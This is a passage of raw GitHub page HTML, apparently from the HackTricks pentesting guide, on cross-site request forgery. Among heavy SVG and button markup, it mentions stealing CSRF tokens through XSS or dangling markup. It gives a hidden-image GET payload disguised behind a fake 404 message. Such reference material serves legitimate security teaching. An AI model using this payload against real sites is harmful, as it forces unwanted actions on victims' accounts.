 " tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h2 dir="auto"><a id="user-content-exploit-examples" class="anchor" aria-hidden="true" href="#exploit-examples"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Exploit Examples</strong></h2>
<h3 dir="auto"><a id="user-content-exfiltrating-csrf-token" class="anchor" aria-hidden="true" href="#exfiltrating-csrf-token"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Exfiltrating CSRF Token</strong></h3>
<p dir="auto">If a <strong>CSRF token</strong> is being used as **defence **you could try to **exfiltrate it **abusing a <a href="/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/#xss-stealing-csrf-tokens"><strong>XSS</strong></a> vulnerability or a <a href="/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md"><strong>Dangling Markup</strong></a> vulnerability.</p>
<h3 dir="auto"><a id="user-content-get-using-html-tags" class="anchor" aria-hidden="true" href="#get-using-html-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>GET using HTML tags</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;img src="http://google.es?param=VALUE" style="display:none" /&gt;
&lt;h1&gt;404 - Page not found&lt;/h1&gt;
The URL you are requesting is no longer available
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<img src=&quot;http://google.es?param=VALUE&quot; style=&quot;display:none&quot; />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
